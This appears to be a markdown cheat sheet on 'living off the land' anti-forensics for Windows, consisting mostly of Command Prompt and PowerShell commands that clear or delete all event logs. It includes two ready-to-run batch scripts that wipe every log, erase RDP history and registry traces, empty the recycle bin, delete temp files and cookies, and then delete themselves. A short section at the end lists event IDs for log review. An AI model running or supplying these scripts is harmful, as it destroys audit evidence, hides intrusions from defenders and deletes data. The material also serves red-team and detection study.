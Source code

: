# Living off the Land

## 01 - Command Prompt

List logs.

```
C:\> wevtutil el
```

Clear logs in a specific category.

```
C:\> wevtutil cl <logname>

C:\> wmic nteventlog where filename='<logname>' call cleareventlog
```

Delete all event logs.

```
C:\> for /f "tokens=*" %1 in ('wevtutil.exe el') do wevtutil.exe cl "%1"

C:\> for /f "tokens=*" %1 in ('wevtutil.exe el') do wmic nteventlog where filename='%1' call cleareventlog
```

Delete all logs.

```
C:\> del %WINDIR%\*.log /a /s /q /f
```

### 1.1 - Automated Batch Scripts

A batch script to wipe the files.

```batch
C:\> type wipe_log_events.bat
@echo off
timeout /t 5
for /f "tokens=1,2*" %%V in ('bcdedit') do set adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /f "tokens=*" %%G in ('wevtutil.exe el') do (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
echo clearing %1
wevtutil.exe cl %1

goto :eof
:noAdmin
echo You must run this script as an Administrator!
echo.
:theEnd
rd /s /q %systemdrive%\$RECYCLE.BIN
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %userprofile%\documents\
attrib Default.rdp -s -h
del Default.rdp
del %0
```

Another variant of the batch to wipe all of the logs.

```batch
C:\> type wipe_all_logs.bat
:: To clean all logs in vindex I recommend to use this bootnik.
:: And even this botnick does not clean all logs, for example in the registry.
:start
cmdow @ /HID

wevtutil.exe cl Application
wevtutil.exe cl Security
wevtutil.exe cl Setup
wevtutil.exe cl System
wevtutil.exe cl ForwardedEvents
%WINDIR%\system32\rundll32.exe

FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
echo.
:theEnd



rd /s /q %systemdrive%\$RECYCLE.BIN
rd /s /q  %systemdrive%\recycler
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers"
cd %userprofile%\documents\
attrib Default.rdp -s -h


DEL /S /Q /A c:\*.log
DEL /S /Q /A c:\*.tmp
DEL /F /S /Q /A "%USERPROFILE%\Roaming\Macromedia\*"
DEL /F /S /Q /A "%USERPROFILE%\Roaming\Adobe\*"
DEL /F /S /Q /A "C:\Windows\Temp\*"
DEL /F /S /Q /A "C:\Temp\*"
DEL /F /S /Q /A "%USERPROFILE%\AppData\Local\Temp\*"
DEL /F /S /Q %TEMP%\*
cd %USERPROFILE%\AppData\Local\Temp
rmdir /s /q %USERPROFILE%\AppData\Local\Temp
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WinDir%\TEMP && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WinDir%\TMP && rd /s /q . > nul 2>&1
pushd %TEMP% && rd /s /q . > nul 2>&1
pushd %WinDir%\Temp && rd /s /q . > nul 2>&1
pushd %TMP% && rd /s /q . > nul 2>&1
pushd %WinDir%\tmp && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Application Data\Temp" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\AppData\Roaming\Adobe\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\Local Settings\History" && rd /s /q . > nul 2>&1
pushd %USERPROFILE%\Cookies && rd /s /q . > nul 2>&1
pushd "%USERPROFILE%\AppData\Roaming\Macromedia\Flash Player\macromedia.com\support\flashplayer\" && rd /s /q . > nul 2>&1

pushd %USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\Content\ && rd /s /q . > nul 2>&1
pushd %USERPROFILE%\Application Data\Microsoft\CryptNetURLCache\MetaData\ && rd /s /q . > nul 2>&1
pushd %USERPROFILE%\Local Settings\Application Data\IconCache.db && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\All Users\Application Data\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temp\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\Default User\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Cookies\" && rd /s /q . > nul 2>&1
pushd "C:\Documents and Settings\LocalService\Local Settings\Temporary Internet Files\" && rd /s /q . > nul 2>&1

DEL /F /S /Q /A "%USERPROFILE%\AppData\Roaming\Download Master\temp\*"
DEL /F /S /Q /A "%USERPROFILE%\AppData\Roaming\Download Master\logs\*"

Cleanmgr /verylowdisk
```

## 02 - Powershell

Delete a specific event log.

```
PS C:\> Remove-EventLog -LogName "Application"
Remove-EventLog -LogName "Security"
Remove-EventLog -LogName "System"
```

Clear multiple event logs.

```
PS C:\> Clear-Eventlog -Log Application,Security,System

PS C:\> Clear-Eventlog -Log Application,Security,System -Confirm

PS C:\> Get-WinEvent -ListLog Application,Security,System -Force | % { Wevtutil.exe cl $_.Logname }
```

Delete all event logs.

```
PS C:\> Get-WinEvent -ListLog * | where {$_.RecordCount} | ForEach-Object -Process { [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }

PS C:\> Get-WinEvent -ListLog * -Force | % { Wevtutil.exe cl $_.LogName }

PS C:\> wevtutil el | Foreach-Object {Write-Host "Clearing $($_)" -ForegroundColor Green ; Wevtutil.exe cl "$_"}
```

TODO: Get all event logs to each specific event category

`PS C:\> Get-WinEvent -FilterHashTable @{LogName="Application"; ID=}`

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-Terminal-Services-RemoteConnectionManager/Operational"; ID=1149}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-Powershell/Operational"; ID=4100,4103,4104,}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Microsoft-Windows-TerminalServices-Gateway"; ID=400,800}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="Security"; ID=1102,4624,4625,4634,4647,4648,4657,4658,4661,4663,4672,4674,4688,4697,4720,4722,4732,4738,4768,4769,4776,4778,4779,4782,5712}
```

```
PS C:\> Get-WinEvent -FilterHashTable @{LogName="System"; ID=7030,7036,7045,10000,100001,20001,20002,20003,24756,24577,24579}
```

---
## References

- [LOFLCAB: Clear-Eventlog](https://lofl-project.github.io/loflcab/Cmdlets/Clear-Eventlog/)

- [Hacking Articles: Post Exploitation Using WMIC (System Command)](https://www.hackingarticles.in/post-exploitation-using-wmic-system-command/)

- [Event Log Tampering Part 1 Disrupting The Eventlog Service](https://svch0st.medium.com/event-log-tampering-part-1-disrupting-the-eventlog-service-8d4b7d67335c)

- [Microsoft Powershell Management Powershell 7.2](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/remove-event?view=powershell-7.2)

- [Microsoft Powershell Management Powershell 5.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-eventlog?view=powershell-5.1)